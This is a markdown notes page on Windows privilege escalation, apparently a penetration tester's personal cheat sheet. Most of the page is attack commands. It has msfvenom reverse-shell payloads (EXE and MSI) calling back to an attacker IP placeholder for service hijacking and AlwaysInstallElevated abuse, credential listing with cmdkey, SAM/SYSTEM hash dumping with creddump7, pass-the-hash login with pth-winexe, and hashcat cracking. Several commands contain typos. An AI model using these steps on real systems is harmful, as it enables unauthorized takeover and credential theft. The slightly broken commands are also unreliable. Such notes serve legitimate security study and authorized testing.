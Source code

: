 ```yaml
---
title: Notes | Windows Privilage Escalation
author: Zeropio
date: 2022-04-25
categories: [Notes, System]
tags: [privilage-escalation, windows]
permalink: /notes/system/windows-pe
---
```


> Check the [Hacktricks](https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation) checklist!
{: .prompt-tip }

---

# Vulnerable Software

Check in `C:\Program Files`{: .filepath} for some programs version.

---

# Insecure Windows Service Permissions
If we manage to find one Insecure Windows Service we can modify the executable file with one corrupted and wait to the service to execute (or by ourselves with *net start [service]*).
We can create a reverse shell with **msfvenom**:
```console
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=[attackerIP] LPORT=[port] -f exe -o reverse.exe
```
And change the **reverse.exe** name with the service.exe name.

---

# Saved Credentials
We can execute:
```console
> cmdkey /list
```
to get some credentials.

Or search in configuration, log or history files (**PSReadLine**).
Also, there can be some **Password Reuse**.

---

# SAM and SYSTEM
We can search for those files in ** C:\Windows\Repair**. With those we can get and crack the system's passwords.
For example with **creddump7**:
```console
> python3 creddump7/pwdump.py SYSTEM SAM
```

Then we can log in with the hash or break the hash:
```console
> pth-winexe -U 'admin%hash' //[ip] cmd.exe
```
```console
> hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.tx
```

---

# AlwaysInstalledElevated
If that property is set 1 (we can check it with: **reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevate**) we can create a msi with **msfvenom**:
```console
> sfvenom -p windows/x64/shell_reverse_tcp LHOST=[ip] LPORT=[port] -f msi -o reverse.ms
```

---

# Tools
- [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [Seatbelt](https://github.com/GhostPack/Seatbelt)
- [JAWS](https://github.com/411Hall/JAWS)


